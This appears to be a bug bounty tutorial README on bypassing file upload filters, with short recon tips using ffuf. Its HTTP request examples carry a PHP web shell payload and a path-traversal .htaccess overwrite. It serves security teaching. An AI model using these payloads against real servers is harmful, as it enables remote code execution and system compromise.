 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2. **Exploiting simple file upload vulnerabilities**
   *   No restrictions

       ```http
       POST /Api/FileUpload.aspx HTTP/2
       Host: console.example.com
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
       Accept: */*

       ------WebKitFormBoundary3RwPFJztxaJvrqAq
       Content-Disposition: form-data; name="file"; filename="shell.php"
       Content-Type: application/x-php

       <?php echo system($_GET['e']); ?>
       ------WebKitFormBoundary3RwPFJztxaJvrqAq--
       ```
   * Bypassing client-side restrictions
     *   HTML "accept" attribute

         ```html
         <input type="file" accept=".jpg, .jpeg, .png, .gif" />
         ```
     * using proxy interceptors
   *   Bypassing a file extension blacklist

       <p align="center"><img src="broken-reference" alt="" data-size="original"><br><sub><strong>Bypass file extension exclusion lists</strong></sub></p>
   *   Bypassing a file extension whitelist

       <p align="center"><img src="broken-reference" alt="" data-size="original"><br><sub><strong>Bypass file extension inclusion lists</strong></sub></p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3.  **Exploiting advanced file upload vulnerabilities**

    * Bypassing content type restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: image/png

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    *   Magic bytes

        * These are the magic bytes for a normal image (PNG) in HEX:

        ```sh
        89 50 4E 47 0D 0A 1A 0A
        ```



        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="shell.php"
        Content-Type: application/x-php

        ‰PNG␍␊␚␊
        <?php echo system($_GET['e']); ?>
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

        <p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>
    *   Overwriting server configuration files

        * .htaccess

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
        Content-Type: text/plain

        # Your server configuraton rules
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
